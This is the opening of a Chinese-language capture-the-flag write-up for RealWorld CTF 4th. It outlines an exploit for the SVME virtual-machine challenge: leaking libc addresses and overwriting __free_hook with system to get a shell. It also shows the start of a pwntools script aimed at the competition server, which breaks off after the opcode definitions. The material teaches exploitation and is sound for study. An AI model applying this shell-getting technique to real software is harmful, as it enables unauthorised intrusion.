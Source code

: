 # RealWorld CTF 4th Writeup

## 前言

本次比赛取得了第四名的成绩,现将师傅们的wp整理如下,与大家交流学习.有意向的师傅欢迎投递简历到root@r3kapig.com.

![](https://i.imgur.com/22o9aCw.png)

## Pwn

### SVME

无检测的虚拟机
- 不断利用LOAD，STORE，GLOAD，GSTORE得到栈地址，栈空间中的libc地址
- 利用计算指令计算出__free_hook-8和system的地址
- 最后结束的时候触发free -> *__free_hook(&__free_hook-8)实现getshell

```python 
from pwn import *

context.log_level = "debug"
context.binary = "./svme"

'''
typedef enum {
    NOOP    = 0,
    IADD    = 1,   // int add
    ISUB    = 2,
    IMUL    = 3,
    ILT     = 4,   // int less than
    IEQ     = 5,   // int equal
    BR      = 6,   // branch
    BRT     = 7,   // branch if true
    BRF     = 8,   // branch if true
    ICONST  = 9,   // push constant integer
    LOAD    = 10,  // load from local context
    GLOAD   = 11,  // load from global memory
    STORE   = 12,  // store in local context
    GSTORE  = 13,  // store in global memory
    PRINT   = 14,  // print stack top
    POP     = 15,  // throw away top of stack
    CALL    = 16,  // call function at address with nargs,nlocals
    RET     = 17,  // return value from function
    HALT    = 18
} VM_CODE;
'''

#p = process("./svme")
#base = p.libs()["/media/psf/Home/Documents/2022-CTF/realworldctf-2022/pwn-SVME/svme_9495bfd34dcaea7af748f1138d5fc25e/svme"]

IP, PORT = "47.243.140.252", 1337
p = remote(IP, PORT)
# opcode
GSTORE = 13 # gstore, offset
POP = 15    # pop
GLOAD = 11  # gload, offset
LOAD = 10   # load, offset
STORE = 12  # store, offset
PUSH = ICONST = 9 # push, data
ADD = IADD = 1 # add
HALT = 18
```
